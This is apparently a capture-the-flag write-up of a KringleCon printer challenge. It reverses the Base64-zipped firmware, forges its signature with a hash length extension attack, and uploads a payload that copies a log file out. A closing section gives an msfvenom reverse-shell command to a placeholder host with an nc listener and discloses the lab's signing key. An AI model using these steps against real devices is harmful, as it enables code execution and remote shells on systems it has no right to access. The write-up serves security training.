 # Printer Exploitation

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [printer website](https://printer.kringlecastle.com/)<br/>
**Terminal hint**: -


## Objective

!!! question "Request"
    Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

??? quote "Ruby Cyster"
    So first things first, you should definitely take a look at the firmware.<br/>
    With that in-hand, you can pick it apart and see what's there.<br/>
    Did you know that if you append multiple files of that type, the last one is processed?<br/>
    Have you heard of [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)?<br/>
    If something isn't working, be sure to check the output! The error messages are very verbose.<br/>
    Everything else accomplished, you just might be able to get shell access to that dusty old thing!


## Hints

??? hint "Dropping Files"
    Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).

??? hint "Hash Extension Attacks"
    [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.

??? hint "Printer Firmware"
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.


## Solution

### Reverse the firmware

We first need to understand what a firmware file looks like. So, download the [current firmware](../artifacts/objectives/o7/firmware-export.json) from the [printer website](https://printer.kringlecastle.com), copy out the data in the JSON file's `firmware` field, Base64 decode the data, and save it to its own `firmware-export.bin` file (line 1).  The `file` command tells us we're working with a ZIP file (line 2). Unpacking the archive reveals a `firmware.bin` executable (lines 3-4).

??? info "Parsing JSON data in the command line"
    [`jq`](https://stedolan.github.io/jq/) is a handy command line JSON processor. You can use it to slice, filter, and transform structured JSON data with the same ease that tools like `sed`, `awk`, and `grep` let you manipulate text. `jq` isn't a requirement for this challenge, but it helps to turn the whole extraction process into an easy-to-use one-liner.

```shell linenums="1" title="Extracting the firmware"
cat firmware-export.json | jq -r '.firmware' | base64 -D > firmware-export.bin
file firmware-export.bin  # indicates this is a ZIP file
mv firmware-export.bin firmware-export.zip  # rename for clarity
unzip firmware-export.zip  # unpack archive
file firmware.bin  # indicates this is a 64-bit ELF binary
```

To create a valid firmware file we simply reverse the steps described above. Create an executable called `firmware.bin`, compress the file, and copy the Base64 encoded archive data to the `firmware` field in the JSON file. The last step is to add a valid signature to the JSON file, but unfortunately we're missing the necessary secret key to calculate that value.


### Ensuring signature validation

When uploading a firmware file, the printer will validate the uploaded signature by calculating a new signature value using a secret key only it knows. If the calculated signature matches the value in the uploaded JSON file, the firmware is considered valid and the printer will execute the enclosed `firmware.bin` file. If the signature is invalid, we get the following error.

![Invalid signature](../img/objectives/o7/invalid_signature.png){ class=border }

Building a new firmware file means we also need a new signature, but how do we do that without the secret key? That question is answererd by the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) hint, which also provides a handy [Hash Extender](https://github.com/iagox86/hash_extender) tool to automate the attack! :partying_face:

!!! quote "blog.skullsecurity.org"
    An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data.

    It turns out, Even though the attacker doesn't know the value of the prepended secret, he can still generate a valid hash for *{secret || data || attacker_controlled_data}*! This is done by simply picking up where the hashing algorithm left off; it turns out, 100% of the state needed to continue a hash is in the output of most hashing algorithms! We simply load that state into the appropriate hash structure and continue hashing.

Since we're appending our payload to valid firmware data in order to execute the Hash Extension attack, we also don't need to worry about which of the 2 ZIP archives will be unpacked. Ruby Cister notes that *"if you append multiple files of that type, the last one is processed"*, which ensures our `firmware.bin` will be extracted and executed by the printer after successful validation.


### Creating the payload

For the payload we can keep it simple by using a [shell script](../tools/objectives/o7/payload-script.sh) or [binary](../tools/objectives/o7/payload-c.c) that copies `/var/spool/printer.log` to `/app/lib/public/incoming/`, making it accessible from [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/). Name the payload `firmware.bin`, make it executable using `chmod +x firmware.bin`, and compress the file using `zip payload-script.zip firmware.bin`.

We now have the original [`firmware-export.zip`](../artifacts/objectives/o7/firmware-export.zip) we extracted previously and our own [`payload-script.zip`](../tools/objectives/o7/payload-script.zip), which we both use as input for [Hash Extender](https://github.com/iagox86/hash_extender) to create the final combined payload and valid signature.

??? info "Compiling Hash Extender"
    The [Hash Extender](https://github.com/iagox86/hash_extender) C code first needs to be compiled into a binary before we can use it. Clone the [Hash Extender repository](https://github.com/iagox86/hash_extender), change into the `hash_extender` directory using `cd hash_extender`, and finally run `make` to compile the project into a single `hash_extender` binary.

![Hash Extender](../img/objectives/o7/hash_extender.png)

The [`xxd`](https://linux.die.net/man/1/xxd) command will create a hex dump of our `payload-script.zip` file and `xargs` will then take that data and make it available to `hash_extender` as `append_data`. As an alternative to these commands you could also [update the source code](../tools/objectives/o7/hash_extender-append-file-fix.c) to support an `--append-file` parameter that takes a filename as input instead of the raw data. Using `--output-data-format fancy | head -n -3 | tail -n +5 | xxd -r | base64` we can extract the hex data from the output, convert it to binary, and Base64 encode it.


### Putting it all together

Use the new signature and Base64 data from the previous step to create a new [`firmware-payload-script.json`](../tools/objectives/o7/firmware-payload-script.json) file and upload it to the printer. Once the upload finishes the printer will validate the JSON, decode the enclosed Base64 data, validate the signature, unpack the last archive which contains our payload, and execute our `firmware.bin` shell script which copies `/var/spool/printer.log` to `/app/lib/public/incoming/crahan_printer.log`. We can now download the printer log file from [https://printer.kringlecastle.com/incoming/crahan_printer_new.log](https://printer.kringlecastle.com/incoming/crahan_printer_new.log).

![Printer log](../img/objectives/o7/printer_log.png){ class=border }

!!! done "Answer"
    `Troll_Pay_Chart.xlsx`

!!! note "Reverse shell<span id="reverse-shell"></span>"
    The example above uses a very simple payload to copy the file we need to a location we can access it from, but you can also solve this challenge by using a reverse shell as the payload. Only the payload creation part is different. All other steps remain exactly the same as outlined above.
    
    Create a simple reverse TCP shell payload using [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) by running `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=9085 -f elf > firmware.bin`. Next, set up a listener using `nc -lvp 9085` that will accept the incoming reverse shell connection. Finally, upload the new firmware file and watch the connection be established.

    In [`/app/lib/app.rb`](../artifacts/objectives/o7/app.rb) you'll find the *mybigsigningkey!* secret key which is used by the printer to validate the firmware signature. In `/var/spool/` there's a [`birdknob.png`](../artifacts/objectives/o7/birdknob.png) picture of a... bird on a doorknob, and you can also leave [a note](https://twitter.com/joeammond/status/1470176441392418816) on the host for other players to find.

    ![Reverse shell](../img/objectives/o7/reverse_shell.png)
